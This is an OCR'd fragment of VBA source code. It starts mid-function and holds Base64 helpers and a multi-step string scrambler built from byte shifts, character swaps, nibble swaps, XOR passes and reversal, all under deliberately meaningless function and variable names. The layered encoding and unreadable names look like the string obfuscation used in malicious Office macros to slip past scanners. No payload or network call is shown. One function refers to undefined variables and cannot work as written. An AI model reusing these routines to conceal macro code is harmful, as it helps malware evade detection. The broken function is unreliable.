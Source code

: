 ```
    objNode.dataType = "bin.base64"
    objNode.nodeTypedValue = arrData
    klgnagjaskjlbgbsajbsagsajgsa = objNode.Text
    Set objNode = Nothing
    Set objXML = Nothing
End Function

Function jisaksgjksbjksabjksabgjskagbjsakgbkj(ByVal strData As String) As Byte()
    Dim objXML As MSXML2.DOMDocument
    Dim objNode As MSXML2.IXMLDOMElement
    Set objXML = New MSXML2.DOMDocument
    Set objNode = objXML.createElement("b64")
    objNode.dataType = "bin.base64"
    objNode.Text = strData
    jisaksgjksbjksabjksabgjskagbjsakgbkj = objNode.nodeTypedValue
    Set objNode = Nothing
    Set objXML = Nothing
End Function

Function jioasgiosahgiosahgsahgbbbbbafsa(ByVal Text As String) As String
    Dim gasgasgisogiogioaragba As String, i As Integer
    For i = 0 To Len(gjasigasogoabvxzbnbkxnzkgas)
        gasgasgisogiogioaragba = gasgasgisogiogioaragba & Mid(Text, (Length - i), 1)
    Next i
    jioasgiosahgiosahgsahgbbbbbafsa = gasgasgisogiogioaragba
End Function

Sub skagiotiohvasgasgasgassdjjj(ByRef Text As String)
    Dim i As Long
    For i = 1 To Len(Text)
        Mid$(Text, i, 1) = Chr$(Asc(Mid$(Text, i, 1)) Xor ((32 + i) Mod 256))
    Next i
End Sub

Function gdtsrtnbzpsapg(ByRef gjasigasogoabvxzbnbkxnzkgas As String) As String
    Dim josajogjsaojpepeqwwqb As Integer, kngkasngksagnskarkwta As Integer, jifsajgiosthigaohbsb As Integer
    Dim jkasojgoisajgoashrt As String

    For i = 1 To Len(gjasigasogoabvxzbnbkxnzkgas)
        josajogjsaojpepeqwwqb = ((i - 1) Mod 4)
        If josajogjsaojpepeqwwqb = 0 Then
            Mid$(gjasigasogoabvxzbnbkxnzkgas, i, 1) = Chr$(((Asc(Mid(gjasigasogoabvxzbnbkxnzkgas, i, 1)) - 104) + 256) Mod 256)
        ElseIf josajogjsaojpepeqwwqb = 1 Then
            jkasojgoisajgoashrt = Mid(gjasigasogoabvxzbnbkxnzkgas, i, 1)
            Mid$(gjasigasogoabvxzbnbkxnzkgas, i, 1) = Mid(gjasigasogoabvxzbnbkxnzkgas, i - 1, 1)
            Mid$(gjasigasogoabvxzbnbkxnzkgas, i - 1, 1) = jkasojgoisajgoashrt
        ElseIf josajogjsaojpepeqwwqb = 2 Then
            kngkasngksagnskarkwta = (Asc(Mid(gjasigasogoabvxzbnbkxnzkgas, i, 1)) * 16) Mod 256
            jifsajgiosthigaohbsb = Asc(Mid(gjasigasogoabvxzbnbkxnzkgas, i, 1)) \ 16
            Mid$(gjasigasogoabvxzbnbkxnzkgas, i, 1) = Chr$(kngkasngksagnskarkwta + jifsajgiosthigaohbsb)
        ElseIf josajogjsaojpepeqwwqb = 3 Then
            Mid$(gjasigasogoabvxzbnbkxnzkgas, i, 1) = Chr$(Asc(Mid(gjasigasogoabvxzbnbkxnzkgas, i, 1)) Xor Asc(Mid(gjasigasogoabvxzbnbkxnzkgas, i - 1, 1)))
        End If
    Next i
    Call skagiotiohvasgasgasgassdjjj(gjasigasogoabvxzbnbkxnzkgas)
    gdtsrtnbzpsapg = StrReverse(gjasigasogoabvxzbnbkxnzkgas)
    gdtsrtnbzpsapg = klgnagjaskjlbgbsajbsagsajgsa(StrConv(gdtsrtnbzpsapg, vbFromUnicode))
    
End Function
```
